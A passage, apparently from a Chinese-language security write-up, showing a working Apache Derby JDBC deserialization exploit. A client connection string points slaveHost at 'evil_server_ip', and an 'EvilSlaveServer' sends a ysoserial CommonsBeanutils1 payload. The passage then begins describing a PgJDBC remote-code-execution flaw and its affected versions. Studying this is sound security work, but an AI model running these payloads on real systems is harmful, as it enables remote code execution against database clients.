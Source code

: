 ```
public static void main(String[] args) throws Exception{
    Class.forName("org.apache.derby.jdbc.EmbeddedDriver");
    DriverManager.getConnection("jdbc:derby:webdb;startMaster=true;slaveHost=evil_server_ip");
}
```

evil server

```
package ysoserial.test;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsBeanutils1;

import java.net.ServerSocket;
import java.net.Socket;
import java.util.concurrent.TimeUnit;

public class EvilSlaveServer {
    public static void main(String[] args) throws Exception {
        int port = 4851;
        ServerSocket server = new ServerSocket(port);
        Socket socket = server.accept();
        socket.getOutputStream().write(Serializer.serialize(new CommonsBeanutils1().getObject("open -a Calculator")));
        socket.getOutputStream().flush();
        Thread.sleep(TimeUnit.SECONDS.toMillis(5));
        socket.close();
        server.close();
    }
}

```



# Postgresql RCE

## 漏洞简介

　　在 PostgreSQL 数据库的 jdbc 驱动程序中发现一个安全漏洞。当攻击者控制 jdbc url 或者属性时，使用 PostgreSQL 数据库的系统将受到攻击。 pgjdbc 根据通过 `authenticationPluginClassName`、`sslhostnameverifier`、`socketFactory` 、`sslfactory`、`sslpasswordcallback` 连接属性提供类名实例化插件实例。但是，驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致通过任意类加载远程代码执行。

```
影响范围：

9.4.1208 <=PgJDBC <42.2.25

42.3.0 <=PgJDBC < 42.3.2
```

环境搭建
